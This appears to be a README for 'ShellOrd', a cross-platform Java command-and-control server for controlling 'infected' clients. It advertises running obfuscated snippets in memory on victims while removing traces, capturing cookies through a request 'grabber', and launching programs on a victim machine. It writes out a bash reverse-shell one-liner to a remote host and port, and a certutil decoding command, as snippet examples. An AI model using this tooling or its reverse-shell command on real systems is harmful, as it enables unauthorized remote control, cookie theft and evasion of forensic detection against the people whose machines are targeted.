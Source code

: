 🐚 ShellOrd Server Cross-Platform written in Java

- Plugins: A collection of plugins. (.jar or .py). 

## Requirements

- Python plugins requires Jython Standalone 2.7.3.
- ShellOrd Server requires Java 17+.
- Import Certificates in format PKCS12 (.p12) to enable SSL or HTTPS.

## Web server - Login

![shellord-login](../_img/shellord-login.gif)

### Bypass localhost + capture requests

https://shellord.mibaltoalex.com:60443

shellord.mibaltoalex.com => 127.0.0.1

### Grabber requests (GET / POST)

https://shellord.mibaltoalex.com:60443/grabber/info?cookie=captured

`2022-03-12 11:08:20.842 SHELLORD::grabber: Request captured: 'Host: 127.0.0.1 ; GET /info?cookie=captured'`

## Snippets

All snippets are packed, compressed and encrypted in `.mar` (MAR; MIBALTOALEX ARchive) files.
A snippet can contain URIs, binary code, scripts (bash, powershell, etc) and plain text (.c, .py, .java, .rs, .sh, .rb, .bat, .txt, ...).

Allows you to run any obfuscated snippet on the infected client. You can also run any obfuscated snippet from memory to the client in paranoid mode and remove traces.

Example to use parameters in snippets: 
```bash
# bash
bash -c 'exec bash -i &>/dev/tcp/~[[rhost]]/~[[rport]] <&1'
```
```powershell
# powershell
certutil -decode ~[[file_input]] ~[[file_output]]
```

## Shell

Includes commands to configure SHELLORD.

![shellord-cmd-config](../_img/shellord-cmd-config.jpg)

Note: Deprecated old mode

## Themes

Includes dark and light theme.

![shellord-extensions](../_img/shellord-theme.jpg)

## Extensions

Includes extensions.

![shellord-extension-demo](../_img/shellord_extension_demo.jpg)

### API

Now allows to set metadata both in code and in annotations

![shellord-metadata](../_img/shellord-metadata.jpg)

### Menu de rutas

Includes menu with custom routes.

![shellord-menu](../_img/shellord-menu.jpg)

### Example

Example launch calculator on victim (Windows)

![shellord-calc](../_img/shellord_calc.gif)

## Utils

- JVM Reverse Engineering

